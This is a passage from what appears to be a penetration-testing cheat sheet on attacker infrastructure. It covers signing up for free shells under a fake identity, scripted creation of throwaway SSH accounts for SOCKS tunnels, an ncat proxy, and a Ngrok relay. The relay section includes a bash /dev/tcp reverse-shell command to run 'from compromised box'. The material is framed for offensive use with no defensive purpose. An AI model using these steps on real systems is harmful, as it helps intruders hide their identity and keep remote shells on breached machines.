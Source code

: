 #### 6.1. Shells for shenanigans

1. get identity on `https://www.fakenamegenerator.com/`
2. get an email address on `https://mail.com` (no 2FA required, fuck GMail)
3. fill in data on `https://freeshells.org` or `https://clients.freeshells.org/cart.php?a=add&pid=8` (from step 1)
Panel: `https://war.freeshells.org:8080`
Confirm account on `https://kiwiirc.com`
4. wait for SSH creds on email account (from step 2)
5. run a NC listener and test it via `https://www.adminkit.net/telnet.aspx` (you should get a connect back)


#### 6.2. Transparent proxy
```
# ncat -lv -p 8081 -k -m 100 --proxy-type http
# http --proxy=https:http://172.16.201.160:8081 https://icanhazip.com -b
```


#### 6.3. vpnjantit (SSH tunneling)

1. create SSH account on `https://www.vpnjantit.com/free-ssh-7-days.html`
```
# url='https://www.vpnjantit.com/create-free-account.html?type=SSH&server=fr1'
# user=abc$RANDOM; pass=def$RANDOM
# http -f $url Referer:$url Content-Type:application/x-www-form-urlencoded user=$user pass=$pass \
| grep -oE 'Your SSH Account successfully created!' >/dev/null && echo $user:$pass
```

2. create tunnel
```
# sshpass -p $pass ssh -NfD 9050 $user-vpnjantit.com@ssh-fr1.vpnjantit.com
# netstat -tlnpe | grep 9050
````

3. test the tunnel
```
# http --proxy=https:http://172.16.201.160:8081 
# proxy='localhost:9050'
# host -t A ssh-fr1.vpnjantit.com # expected IP
ssh-fr1.vpnjantit.com has address 185.35.67.207
# http --proxy=http:socks5://$proxy --proxy=https:socks5://$proxy https://icanhazip.com -b
185.35.67.207
```

4. close the tunnel
```
# netstat -tlnpe 2>/dev/null | grep 9050 | awk '{print $9}' | sort -u | sed 's/\/.*//g' | xargs kill
```


#### 6.4. Ngrok

1. create account
2. download and unzip Ngrok
3. start local listener on arbitrary port
```
# ./ngrok tcp 7777
```
4. connect to Ngrok host from compromised box (details in user panel)
```
# bash -i >& /dev/tcp/0.tcp.ngrok.io/<PORT> 0>&1
```


#### 6.5. Other services
- `ngrok.com`, `ngrok.io`
- `portmap.com`, `portmap.io`
- `serveo.net`
- `localtunner.me`
- `pagekite.net`
- `shells.red-pill.eu`
